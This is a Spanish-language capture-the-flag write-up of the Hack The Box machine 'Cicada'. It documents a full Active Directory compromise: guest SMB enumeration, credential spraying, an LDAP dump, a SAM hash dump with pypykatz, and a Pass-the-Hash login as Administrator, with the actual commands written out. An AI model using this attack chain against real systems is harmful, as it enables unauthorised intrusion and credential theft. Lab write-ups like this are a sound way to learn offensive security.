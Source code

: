 ```yaml
---
title: Cicada
published: 03 Oct 2024
---
```

* * *

En este writeup, exploramos la máquina Cicada de Hack The Box, donde explotamos Active Directory mediante la recopilación de información y la técnica Pass-the-Hash. Finalmente, logramos comprometer el dominio y extraer datos sensibles.

# [](#header-1)RECONOCIMIENTO

Empezaré por scanear todos los protocolos en la máquina objetivo:
  1. Escanear los puertos abiertos.
  2. Escanear los servicios en cada puerto que esté abierto.
  ```js
❯ nmap -sCV -v 10.10.11.35 -Pn -T3
```
  ```js
  
  nmap -sCV -v 10.10.11.35 -Pn -T3
  ```
  Como resultado encontramos esto:
  ```js
  
  Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
	Starting Nmap 7.93 (https://nmap.org ) at 2024-10-02 12:18 CEST
	NSE: Loaded 155 scripts for scanning.
	NSE: Script Pre-scanning.
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating NSE at 12:18
	Completed NSE at 12:18, 0.00s elapsed
	Initiating Parallel DNS resolution of 1 host. at 12:18
	Completed Parallel DNS resolution of 1 host. at 12:18, 0.01s elapsed
	Initiating Connect Scan at 12:18
	Scanning 10.10.11.35 [1000 ports]
	Discovered open port 135/tcp on 10.10.11.35
	Discovered open port 53/tcp on 10.10.11.35
	Discovered open port 445/tcp on 10.10.11.35
	Discovered open port 139/tcp on 10.10.11.35
	Discovered open port 464/tcp on 10.10.11.35
	Discovered open port 389/tcp on 10.10.11.35
	Discovered open port 593/tcp on 10.10.11.35
	Discovered open port 88/tcp on 10.10.11.35
	Discovered open port 3269/tcp on 10.10.11.35
	Discovered open port 3268/tcp on 10.10.11.35
	Discovered open port 636/tcp on 10.10.11.35
	Completed Connect Scan at 12:18, 4.00s elapsed (1000 total ports)
	Initiating Service scan at 12:18
	Scanning 11 services on 10.10.11.35
	Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
	Service scan Timing: About 63.64% done; ETC: 12:18 (0:00:05 remaining)
	Completed Service scan at 12:19, 45.25s elapsed (11 services on 1 host)
	NSE: Script scanning 10.10.11.35.
	Initiating NSE at 12:19
	Completed NSE at 12:19, 40.04s elapsed
	Initiating NSE at 12:19
	Completed NSE at 12:19, 1.60s elapsed
	Initiating NSE at 12:19
	Completed NSE at 12:19, 0.00s elapsed
	Nmap scan report for 10.10.11.35
	Host is up (0.037s latency).
	Not shown: 989 filtered tcp ports (no-response)
	PORT     STATE SERVICE       VERSION
	53/tcp   open  domain        Simple DNS Plus
	88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-02 17:18:36Z)
	135/tcp  open  msrpc         Microsoft Windows RPC
	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
	389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
	| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
	| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
	| Issuer: commonName=CICADA-DC-CA
	| Public Key type: rsa
	| Public Key bits: 2048
	| Signature Algorithm: sha256WithRSAEncryption
	| Not valid before: 2024-08-22T20:24:16
	| Not valid after:  2025-08-22T20:24:16
	| MD5:   9ec51a2340efb5b83d2c39d8447ddb65
	|_SHA-1: 2c936d7bcfd811b99f711a5a155d88d34a52157a
	|_ssl-date: TLS randomness does not represent time
	445/tcp  open  microsoft-ds?
	464/tcp  open  kpasswd5?
	593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
	636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
  ```

  En especial encontramos un Active Directory (CICADA-DC.cicada.htb)

* * *

# [](#header-1)Foothold

El foothold en esta máquina es fácil. Vamos a probar un par de cosas:


Vamos a intentar conectarnos con la herramienta NetExec mediante SMB con el usuario "guest" a ver si podemos:

```js
❯ netexec smb 10.10.11.35 -u 'guest' -p '
```
Y nos deja conectarnos:
```ruby
	[*] First time use detected
	[*] Creating home directory structure
	[*] Creating missing folder logs
	[*] Creating missing folder modules
	[*] Creating missing folder protocols
	[*] Creating missing folder workspaces
	[*] Creating missing folder obfuscated_scripts
	[*] Creating missing folder screenshots
	[*] Creating default workspace
	[*] Initializing FTP protocol database
	[*] Initializing LDAP protocol database
	[*] Initializing MSSQL protocol database
	[*] Initializing RDP protocol database
	[*] Initializing SMB protocol database
	[*] Initializing SSH protocol database
	[*] Initializing VNC protocol database
	[*] Initializing WINRM protocol database
	[*] Initializing WMI protocol database
	[*] Copying default configuration file
	SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
	SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
```
Ahora voy a proceder a listar las carpetas que se comparte y encontramos algunas que pueden contener información sensible:

```js
❯ netexec smb 10.10.11.35 -u 'guest' -p '' --shares
```
Y encontramos dos carpetas que son de nuestros interes, HR y DEV, voy a intentar acceder a HR a ver si puedo encontrar algo:
```js
smbclient //10.10.11.35/HR
```
```js
smb: \> ls
	  .                                   D        0  Thu Mar 14 13:29:09 2024
	  ..                                  D        0  Thu Mar 14 13:21:29 2024
	  Notice from HR.txt                  A     1266  Wed Aug 28 19:31:48 2024
```
Y encontramos un .txt en el que dentro de el se encuentra una credencial.
![Texto alternativo](/assets/cicada.png)

Ahora con los usuarios que encontramos en SidTypeUser con este comando:
```js
cme smb 10.10.11.35 -u 'guest' -p '' --rid-brute | grep SidTypeUser
```
Lo metemos en un archivo y aplicamos fuerza bruta para probar esa credencial con todos los usuarios que hemos encontrado:
```js
netexec smb 10.10.11.35 -u users.list -p 'Credencial'
```
Y vemos que esa credencial coincide con el usuario "michael".
![Texto alternativo](/assets/cicada2.png)

Ahora con dumpear toda la información que podamos logueados como este usuario:
```js
ldapdomaindump ldap:/10.10.11.35 -u 'cicada.htb\michael.wrightson' -p "Credencial"
```
![Texto alternativo](/assets/cicada3.png)

Y mirando entre estos archivos, encontramos otra credencial, en este caso de el usuario "david" dentro del archivo (domain_users.grep).

Esta credencial y usuario nos va a permitir acceder a los archivos que se encuentra dentro de la carpeta DEV, ya que con el usuario "michael" no podía acceder.
![Texto alternativo](/assets/cicada4.png)
![Texto altenativo](/assets/cicada5.png)

Encontramos otra credencial dentro de ese archivo .ps1
Asique ahora mediante evil-winrm nos vamos a conectar al AD en busca de la user flag.
```js
evil-winrm -i 'cicada.htb' -u 'emily.oscars' -p 'Credencial'
```
Y ya estamos dentro:

![Texto altenativo](/assets/cicada6.png)

Si buscamos un poco por los directorios, encontramos la user flag:
![Texto altenativo](/assets/cicada7.png)

# [](#header-1)Escalada de Privilegios

Primero de todo voy a ver sobre que tengo privilegios:

![Texto altenativo](/assets/cicada8.png)

Lo que voy a hacer ahora es extraer la base de datos SAM para extraer los hashes NTLM/NTHash que estan almacenadas en el sistema:
```js
pypykatz registry --sam sam system
```
```js
[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
	[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
	Administrator:500:NTHASHDELUSUARIOADMINISTRATOR*********
	*******:::
	Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c
	0:::
	DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59
	d7e0c089c0:::
```
Ahora una vez conseguido ese NTHash del usuario "Administrator" nos logueamos utilizando evil-winrm:
```js
evil-winrm -i 10.10.11.35 -u administrator -H "NTHASHdeAdministator"
```
Y ya encontrariamos la root flag.
![Texto altenativo](/assets/cicada9.png)

PWNED!